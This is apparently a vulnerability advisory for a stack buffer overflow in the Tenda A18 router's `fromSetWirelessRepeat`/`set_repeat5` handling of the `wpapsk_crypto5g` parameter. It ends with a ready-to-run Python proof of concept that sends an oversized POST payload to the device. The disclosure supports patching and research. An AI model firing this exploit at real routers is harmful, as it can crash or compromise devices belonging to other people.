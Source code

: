 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

V15.13.07.09

## Vulnerability details

The Tenda A18 V15.13.07.09 has a stack overflow vulnerability located in the `fromSetWirelessRepeat` function. This function accepts the `wpapsk_crypto5g` parameter from a POST request by variable `wpapsk_cryptoc` and passes it to the `set_repeat5` function.

![image-20240307200548275](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200548275.png)

![image-20240307200611759](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200611759.png)

Within `set_repeat5`, the array `wpapsk_cryptovalue` is fixed at 16 bytes. However, since the user has control over the input of `wpapsk_crypto5g`, the statement `strcpy(wpapsk_cryptovalue, wpapsk_crypto);` leads to a buffer overflow. The user-supplied `wpapsk_crypto5g` can exceed the capacity of the `wpapsk_cryptovalue` array, thus triggering this security vulnerability.

![image-20240307200632291](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200632291.png)

![image-20240307200640100](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200640100.png)

We set both variables `configured2_4g`  and `configured5g`  equal to the string 'true' to trigger the execution of the vulnerable code section within the `strcmp` if condition.

![image-20240307200712324](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200712324.png)

## PoC

```python
import requests

ip = '192.168.84.101'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
    'configured2_4g': 'true',
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'true',
    'wpapsk_key2_4g': '1234567890',
    'extSSID5g':'true',
    'originSsid5g': '1234',
    'encode5g': '1234',
    'security5g': 'wpapsk',
    'wpapsk_type5g': 'wpa2',
    'wpapsk_crypto5g': 'a' * 0x100,
    'wpapsk_key5g': '1234567890'
} # c
res = requests.post(url=url, data=payload)

print(res)
```

![image-20240307200828364](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200828364.png)